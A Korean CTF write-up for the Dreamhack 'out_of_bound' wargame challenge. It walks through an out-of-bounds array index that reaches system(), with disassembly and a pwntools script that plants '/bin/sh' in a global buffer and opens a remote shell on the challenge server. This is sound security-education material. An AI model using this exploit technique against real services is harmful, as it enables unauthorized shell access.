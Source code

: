out_of_bound
===

# Description

> 이 문제는 서버에서 작동하고 있는 서비스(out_of_bound)의 바이너리와 소스 코드가 주어집니다.
> 프로그램의 취약점을 찾고 익스플로잇해 셸을 획득하세요.
> “flag” 파일을 읽어 워게임 사이트에 인증하면 점수를 획득할 수 있습니다.
> 플래그의 형식은 DH{…} 입니다.

# Source code

> \#include &#60;stdio.h&#62;
>
> \#include &#60;stdlib.h&#62;
>
> \#include &#60;signalA.h&#62;
>
> \#include &#60;unistd.h&#62;
>
> \#include &#60;string.h&#62;
>
> 
>
> char name[16];
>
> 
>
> char *command[10] = { "cat",
>
>   "ls",
>
>   "id",
>
>   "ps",
>
>   "file ./oob" };
>
> void alarm_handler()
>
> {
>
>   puts("TIME OUT");
>
>   exit(-1);
>
> }
>
> 
>
> void initialize()
>
> {
>
>   setvbuf(stdin, NULL, _IONBF, 0);
>
>   setvbuf(stdout, NULL, _IONBF, 0);
>
> 
>
>   signal(SIGALRM, alarm_handler);
>
>   alarm(30);
>
> }
>
> 
>
> int main()
>
> {
>
>   int idx;
>
> 
>
>   initialize();
>
> 
>
>   printf("Admin name: ");
>
>   read(0, name, sizeof(name));
>
>   printf("What do you want?: ");
>
> 
>
>   scanf("%d", &idx);
>
> 
>
>   system(command[idx]);
>
> 
>
>   return 0;
>
> }

system이라는 명령어 에서는 안에있는 명령어를 실행한다. command는 index를 확인하지 않기 때문에 이를 이용한다. 그런데 command는 포인터 이므로 포인터를 이용해야 한다. 따라서 name[0]~name[3]은 name[4]의 주솟값을 넣고, name[4]에 /bin/sh를 넣는다. command의 index를 이용해 이 코드가 실행되도록 한다. 

# Result

> ~~~
> Dump of assembler code for function main:
> 0x080486cb <+0&#62;:	lea    ecx,[esp+0x4]
> 0x080486cf <+4&#62;:	and    esp,0xfffffff0
> 0x080486d2 <+7&#62;:	push   DWORD PTR [ecx-0x4]
> 0x080486d5 <+10&#62;:	push   ebp
> 0x080486d6 <+11&#62;:	mov    ebp,esp
> 0x080486d8 <+13&#62;:	push   ecx
> 0x080486d9 <+14&#62;:	sub    esp,0x14
> 0x080486dc <+17&#62;:	mov    eax,gs:0x14
> 0x080486e2 <+23&#62;:	mov    DWORD PTR [ebp-0xc],eax
> 0x080486e5 <+26&#62;:	xor    eax,eax
> 0x080486e7 <+28&#62;:	call   0x804867b <initialize&#62;
> 0x080486ec <+33&#62;:	sub    esp,0xc
> 0x080486ef <+36&#62;:	push   0x8048811
> 0x080486f4 <+41&#62;:	call   0x80484b0 <printf@plt&#62;
> 0x080486f9 <+46&#62;:	add    esp,0x10
> 0x080486fc <+49&#62;:	sub    esp,0x4
> 0x080486ff <+52&#62;:	push   0x10
> 0x08048701 <+54&#62;:	push   0x804a0ac
> 0x08048706 <+59&#62;:	push   0x0
> 0x08048708 <+61&#62;:	call   0x80484a0 <read@plt&#62;
> 0x0804870d <+66&#62;:	add    esp,0x10
> 0x08048710 <+69&#62;:	sub    esp,0xc
> 0x08048713 <+72&#62;:	push   0x804881e
> 0x08048718 <+77&#62;:	call   0x80484b0 <printf@plt&#62;
> 0x0804871d <+82&#62;:	add    esp,0x10
> 0x08048720 <+85&#62;:	sub    esp,0x8
> 0x08048723 <+88&#62;:	lea    eax,[ebp-0x10]
> 0x08048726 <+91&#62;:	push   eax
> 0x08048727 <+92&#62;:	push   0x8048832
> 0x0804872c <+97&#62;:	call   0x8048540 <&#95;_scanf@plt&#62;
> 0x08048731 <+102&#62;:	add    esp,0x10
> 0x08048734 <+105&#62;:	mov    eax,DWORD PTR [ebp-0x10]
> 0x08048737 <+108&#62;:	mov    eax,DWORD PTR [eax*4+0x804a060]
> 0x0804873e <+115&#62;:	sub    esp,0xc
> 0x08048741 <+118&#62;:	push   eax
> 0x08048742 <+119&#62;:	call   0x8048500 <system@plt&#62;
> 0x08048747 <+124&#62;:	add    esp,0x10
> 0x0804874a <+127&#62;:	mov    eax,0x0
> 0x0804874f <+132&#62;:	mov    edx,DWORD PTR [ebp-0xc]
> 0x08048752 <+135&#62;:	xor    edx,DWORD PTR gs:0x14
> 0x08048759 <+142&#62;:	je     0x8048760 <main+149&#62;
> 0x0804875b <+144&#62;:	call   0x80484e0 <__stack_chk_fail@plt&#62;
> 0x08048760 <+149&#62;:	mov    ecx,DWORD PTR [ebp-0x4]
> 0x08048763 <+152&#62;:	leave  
> 0x08048764 <+153&#62;:	lea    esp,[ecx-0x4]
> 0x08048767 <+156&#62;:	ret 
> ~~~
>
> 

소스코드는 다음과 같다. 입력이 되는 61번 read와 system의 119번을 보고 name과 commend의 주솟값을 알아보겠다.

> 



> 



> 



> ~~~
> from pwn import *
> 
> p=remote("host1.dreamhack.games",8257)
> payload=p32(0x804a0b0)
> payload+="/bin/sh"
> p.recvuntil(": ")
> p.sendline(payload)
> p.recvuntil(": ")
> p.sendline("19")
> p.interactive()
> ~~~

out_of_bound를 공격하기 위한 코드는 다음과 같다.

# Learned

> gdb-peda를 이용하면 함수에 들어가는 인자를 알 수 있다.
>
> remote(주소,포트)를 통해 원격 저장소에 연결 할 수 있다.
>
> prcess(파일주소)를 통해 local에 있는 파일에 연결할 수 있다.
>
> p32는 32bit little endian으로 packing해준다. 64bit은 p64를 이용한다.
>
> recvuntil은 주어진 문자열이 나올 때 까지 받는다.
>
> sendline은 주어진 문자열을 보낸다.
>
> interactive는 연결된 곳에 상호작용 할 수 있게 한다.